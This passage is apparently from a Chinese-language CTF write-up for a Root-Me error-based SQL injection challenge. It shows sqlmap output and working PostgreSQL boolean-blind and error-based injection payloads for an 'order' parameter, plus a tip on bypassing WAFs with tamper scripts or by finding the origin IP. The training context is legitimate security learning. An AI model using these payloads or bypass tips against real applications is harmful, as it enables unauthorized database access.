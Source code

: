 ```shell
[10:42:11] [INFO] testing 'PostgreSQL > 8.1 time-based blind - ORDER BY, GROUP BY clause'
[10:42:11] [INFO] testing 'PostgreSQL time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[10:42:12] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:42:12] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
GET parameter 'order' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 373 HTTP(s) requests:
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause
    Payload: action=contents&order=ASC,(SELECT (CASE WHEN (6759=6759) THEN 1 ELSE 1/(SELECT 0) END))

    Type: error-based
    Title: PostgreSQL error-based - ORDER BY, GROUP BY clause
    Payload: action=contents&order=ASC,(CAST((CHR(113)||CHR(118)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5026=5026) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC))
---
[10:42:31] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:42:31] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 10:42:31 /2019-03-16/
```

> 注：某些 CTF 平台会对 `sqlmap` 等工具进行 WAF 屏蔽，直接结果就是导致扫描失败，所以还是尽可能更多地总结自己 SQLi 的探针。不过即使被 WAF 还是有办法绕过的，例如利用 tamper，或直接找到源站 IP 。

通过 sqlmap 的扫描结果，可以知道这个确实是 PostgreSQL 数据库，且Web 框架是 Nginx 。

同时也发现了页面 [http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC](http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC) 其实是有两种注入方式的：


```sql
// 基于布尔盲注，探针是：
action=contents&order=ASC,(SELECT (CASE WHEN (6759=6759) THEN 1 ELSE 1/(SELECT 0) END))

// 基于错误注入，探针是
action=contents&order=
ASC,(CAST((CHR(113)||CHR(118)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5026=5026) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC))
```

但既然题目是基于错误的 SQL 注入，布尔盲注的探针就先不管了。

我们尝试使用后一个探针，得到回显输出 `ERROR:  invalid input syntax for type numeric: "qvxbq1qxxbq"` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/12.png)

